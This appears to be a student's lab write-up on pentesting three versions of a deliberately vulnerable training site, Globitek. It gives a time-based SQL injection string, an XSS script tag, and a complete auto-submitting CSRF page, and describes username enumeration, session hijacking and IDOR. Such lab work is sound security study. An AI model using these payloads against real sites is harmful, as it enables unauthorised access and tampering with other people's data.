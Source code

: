 # Week 8 - Pentesting Live Targets

Time spent: Roughly 11-12 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection (SQLi)

 * This vulnerability is SQLi.
 * It is taken advantage of the hacker by simply inputting the statement instead of the employee's ID number.
 * %27%20OR%20SLEEP(5)=0--%27

Vulnerability #2: Session Hijacking/Fixation

 * This vulnerability is Session Hijacking/Fixation.
 * It is taken advantage of the hacker by gaining access to the victim's Session ID via hack tools. The session ID is then input to burp suite which changes the session ID and logs the attacker in without issue.
 * Using two seperate browsers, I was able to trick the chrome browser into believing that I was actually the victim.


## Green

Vulnerability #1: Cross-Site Scripting (XSS)

 * This vulnerability is XSS.
 * <script>alert('I found it!! YAY!');</script> is what I used. 
 * The attacker can inject XSS code within the feedback form.
 * The XSS runs as soon as the owner of the account looks at the feedback form.
 * XSS was awesome!

Vulnerability #2: Username Enumeration

 * This vulnerability is Username Enumeration.
 * By the site actually giving you hints and clues. You are able to see when you input jmonroe9 the feedback shows an unbold "Login was unsuccessful". This means that the username doesn't exist. On the other hand when you input jmonroe99 the feedback shows the unsuccessful message in bold which means that the username exists, you just have the wrong password.
 * After all of this, you can go through any list and figure out which would be valid and which wouldn't.
 * Another username is: pperson


## Red

Vulnerability #1: Cross-Site Request Forgery (CSRF)

 * This vulnerability was cross-site request forgery.
 * This was one of the more difficult ones for me. I kept having typos which lead to it not working at first.
 When I got it to work, it was a lot easier. 
 * It consists of creating a malicious page which in return allows the user's session to create a request to the database.
 
```
<html>
  <head>
    <title>A Totally Blank Page</title>
  </head>
  <body onload="document.CSRF.submit()">
	<form action="https://xx.xxx.xxx.xx/red/public/staff/salespeople/edit.php?id=5" method="post" style="display: none;" name='CSRF' target="res">
	    <input type="text" name="first_name" value="Ken Barker" />
      	<input type="text" name="last_name" value="WAS HACKED" />
      	<input type="text" name="phone" value="555-352-9654" />
      	<input type="text" name="email" value="kbarker@HACKED.com" />
	</form>
    <iframe name="res" style="display: none;"></iframe>
  </body>
</html>
```

Vulnerability #2: Insecure Direct Object Reference

 * This vulnerability was Insecure Direct Object Reference.
 * The attacker (me) was allowed to view any account and even those that had been previously deactivated.
 * Simply look for previously deactivated accounts by guessing the low-number ID's.
 * There shouldn't be any feedback on an account that's been deactivated.


## Notes
This lab was difficult for me but fun at the same time. I spend a lot of time actually looking up more information on the types of attacks and what I should know before diving into the lab.
